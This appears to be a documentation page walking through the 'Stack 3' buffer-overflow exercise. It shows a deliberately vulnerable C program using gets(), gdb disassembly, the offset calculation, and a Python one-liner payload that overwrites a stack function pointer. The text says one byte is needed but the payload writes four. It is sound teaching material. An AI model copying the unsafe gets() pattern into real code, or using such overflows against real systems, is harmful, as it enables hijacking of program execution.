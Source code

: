 ```yaml
---
title: Stack 3
sidebar_position: 4
custom_edit_url: null
---
```


> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
> 
> **Hints**
> - both gdb and objdump is your friend you determining where the win() function lies in memory.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
There is a pointer `fp` which is set to 0. The program then jumps to the address in the `fp` pointer.
The `win` function is what we want to call. However it is not called by the `main` function.

Therefore we have to redirect program execution by overwriting the `fp` pointer.

In order to do that, we have to know the address of the `win` function.
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```
So we set the value of `fp` to `0x08048424`.

Let's look at the program in `gdb`.
```
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```
We can see that the instruction at `main+57` is what sets up the function call.
```
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
```
Let's find the distance between the `buffer` and `fp`.
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `fp` function pointer. 

## Exploit
Note that the value is stored in little-endian. 
```
$  python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

